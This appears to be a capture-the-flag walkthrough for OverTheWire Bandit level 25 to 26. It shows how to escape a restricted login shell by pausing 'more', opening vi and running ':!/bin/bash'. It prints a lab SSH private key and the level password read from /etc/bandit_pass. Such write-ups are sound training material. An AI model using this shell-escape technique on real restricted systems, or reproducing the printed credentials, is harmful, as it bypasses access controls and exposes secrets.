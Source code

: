 # BANDIT LEVEL 25 --> LEVEL 26

```
http://overthewire.org/wargames/bandit/bandit26.html
```

### Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is
not /bin/bash, but something else. Find out what it is, how it works and how to break out of
it.

### Commands you may need to solve this level

```
ssh, cat, more, vi, ls, id, pwd
```

### SOLUTION

```
bandit25@bandit:~$ whoami
bandit25
bandit25@bandit:~$ pwd
/home/bandit25
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ cat bandit26.sshkey
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU
i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj
6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm
pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz
JQBmMc6UMYRARVP1dIKANN4eY0FSHfEebHcqXLho0mXOUTXe37DWfZza5V9Oify3
JquBd8uUptW1Ue41H4t/ErsCgYEArc5FYtF1QXIlfcDz3oUGz16itUZpgzlb71nd
1cbTm8EupCwWR5I1j+IEQU+JTUQyI1nwWcnKwZI+5kBbKNJUu/mLsRyY/UXYxEZh
ibrNklm94373kV1US/0DlZUDcQba7jz9Yp/C3dT/RlwoIw5mP3UxQCizFspNKOSe
euPeaxUCgYEAntklXwBbokgdDup/u/3ms5Lb/bm22zDOCg2HrlWQCqKEkWkAO6R5
/Wwyqhp/wTl8VXjxWo+W+DmewGdPHGQQ5fFdqgpuQpGUq24YZS8m66v5ANBwd76t
IZdtF5HXs2S5CADTwniUS5mX1HO9l5gUkk+h0cH5JnPtsMCnAUM+BRY=
-----END RSA PRIVATE KEY-----
```

Okay, so we have a `ssh` private key that will likely let us log in as `bandit26`. Let's look
into the clue about `bandit26` shell not being `/bin/bash`..

```
bandit25@bandit:~$ grep bandit26 /etc/passwd
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

What is `showtext`?

```
bandit25@bandit:~$ man showtext
No manual entry for showtext
See 'man 7 undocumented' for help when manual pages are not available.
bandit25@bandit:~$ /usr/bin/showtext
more: stat of /home/bandit25/text.txt failed: No such file or directory
bandit25@bandit:~$ cat /home/bandit26/text.txt
cat: /home/bandit26/text.txt: Permission denied
bandit25@bandit:~$ ls -l /home/bandit26/text.txt
-rw-r----- 1 bandit26 bandit26 258 Oct 16 14:00 /home/bandit26/text.txt
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```

Looks like it is just a script that outputs the contents of the file `text.txt` in your
home directory and exits.. so we should expect that once we log in, we'll see some text and
be logged out.

```
$ ssh bandit26@bandit.labs.overthewire.org -p 2220 -i bandit26.sshkey
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

Linux bandit 4.18.12 x86_64 GNU/Linux

      ,----..            ,----,          .---.
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' '
  |   :  | ; | ' ;    |.';  ; ;   \  \;      :
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ;
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"
     \   \ .'        ;   |.'       \   \ ;
  www. `---` ver     '---' he       '---" ire.org


Welcome to OverTheWire!

<...>

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!

  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
Connection to bandit.labs.overthewire.org closed.
```

Yup.. so how to we bypass the login `shell`?  Trying the following doesn't quite
cut it since the `/bin/bash --noprofile --norc` is passed as a command to be executed
by the default shell.. and our default shell isn't a shell at all that can run
commands.

```
$ ssh bandit26@bandit.labs.overthewire.org -p 2220 -i bandit26.sshkey -t '/bin/bash --noprofile --norc'
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
Connection to bandit.labs.overthewire.org closed.
```

So taking a closer look at the `/usr/bin/showtext` script, we see that it uses the
`more` command.  Let's take a look at the `more` manpage to see if there is anything
we can use.

```
bandit25@bandit:~$ man more
MORE(1)                            User Commands                           MORE(1)

NAME
       more - file perusal filter for crt viewing

SYNOPSIS
       more [options] file...

DESCRIPTION
       more  is  a  filter  for paging through text one screenful at a time.  This
       version is especially primitive.  Users should realize  that  less(1)  pro‐
       vides more(1) emulation plus extensive enhancements.

<...>

COMMANDS
       Interactive  commands  for  more  are based on vi(1).  Some commands may be
       preceded by a decimal number, called k in the descriptions below.   In  the
       following descriptions, ^X means control-X.

              !command or :!command
                        Execute command in a subshell.

              v         Start  up  an editor at current line.  The editor is taken
                        from the environment variable VISUAL if defined, or EDITOR
                        if  VISUAL  is  not  defined, or defaults to vi if neither
                        VISUAL nor EDITOR is defined.

<...>

ENVIRONMENT
       The more command respects the  following  environment  variables,  if  they
       exist:

       MORE   This variable may be set with favored options to more.

       SHELL  Current shell in use (normally set by the shell at login time).
```

If we resize our terminal window to be small enough so that the content of
`~/text.txt` won't fit entirely within the terminal window, `more` goes into its
"command view" and doesn't just exit immediately.

```
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
--More--(66%)
```

Now we can use some of the interesting commands we found in the manpage. We first
flip into the editor mode with the `v` command (which drops us into a `vi` editor
of the file)..

```
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
~
~
~
"~/text.txt" [readonly] 6L, 258C                                   1,3           All
```

Then we need to set the `SHELL` environment variable or it will default to our login
shell (which is `/usr/bin/showtext` and will put us back where we started).

```
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
~
~
~
:set shell=/bin/bash
```

And now we can execute the command `/bin/bash` to spawn a bash shell for us.

```
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
~
~
~
:!/bin/bash
bandit26@bandit:~$ whoami
bandit26
bandit26@bandit:~$ pwd
/home/bandit26
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```
